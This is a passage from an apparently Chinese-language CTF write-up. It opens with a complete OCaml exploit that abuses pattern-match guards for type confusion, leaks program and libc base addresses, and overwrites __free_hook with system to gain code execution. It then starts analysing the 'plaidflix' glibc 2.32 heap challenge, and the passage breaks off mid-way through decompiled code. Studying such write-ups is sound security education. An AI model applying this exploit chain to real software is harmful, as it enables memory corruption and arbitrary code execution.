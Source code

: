 ```
let leak (x1,x2) s =
  match (x1,x2) with
    (false,_) -&gt; 0
  | (_,`{`contents=D _`}`) -&gt; 1
  | _ when (x2 := D(s); false) -&gt; 2
  | (true, `{`contents=C y`}`) -&gt; y
let leak2 (x1,x2) y =
  match (x1,x2) with
    (false, _) -&gt; ref 0
  | (_,`{`contents=E _`}`) -&gt; ref 1
  | _ when (x2 := E(y); false) -&gt; ref 2
  | (true, `{`contents=F y`}`) -&gt; y
let prog_base = leak (true, ref (C 1)) s * 2 - 0xDBE78 + 1 (* 0xDBE78 is the offset of string s *)
let target = (0xD9FE0 + prog_base) / 2
let r = leak2 (true, ref (F (ref 1))) target
let libc_base = ((!r) land 0xffffffffff) * 2 * 256 - 0x23e00
let free_hook = libc_base + 0x1bd8e8
let system = libc_base + 0x448a3
let _ = printf "0x%x\n" (prog_base)
let _ = printf "0x%x\n" (target)
let _ = printf "0x%x\n" (libc_base)
let r = leak3 (true,ref (B (of_string "c"))) (free_hook / 2)
let () = set r 0 (char_of_int ((system lsr 0) mod 256))
let () = set r 1(char_of_int ((system lsr 8) mod 256))
let () = set r 2(char_of_int ((system lsr 16) mod 256))
let () = set r 3(char_of_int ((system lsr 24) mod 256))
let () = set r 4(char_of_int ((system lsr 32) mod 256))
let () = set r 5(char_of_int ((system lsr 40) mod 256))
let () = set r 6(char_of_int ((system lsr 48) mod 256))
let s = byebye 1 (true, ref(H(string_of_int))) (free_hook/ 2)
```



## plaidflix

算是比赛中最简单的一道题吧，非常常规的菜单题，只不过glibc是2.32的，但是对做题影响不大。

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90"></a>题目分析

首先`add_friend`：

```
void add_friend()
`{`
    friend *v0; // rbx
    int i; // [rsp+4h] [rbp-1Ch]
    __int64 size; // [rsp+8h] [rbp-18h]

    for ( i = 0; i &lt;= 7; ++i )
    `{`
        if ( !friend_array[i] )
        `{`
            puts("How long is your friend's name?");
            printf(format);
            size = (int)read_int() + 1LL;
            if ( size &gt; 0x90 )
            `{`
                puts("No one has such a long name. Try again.");
                return;
            `}`
            if ( size &lt;= 0x2F )
                size = 0x30LL;
```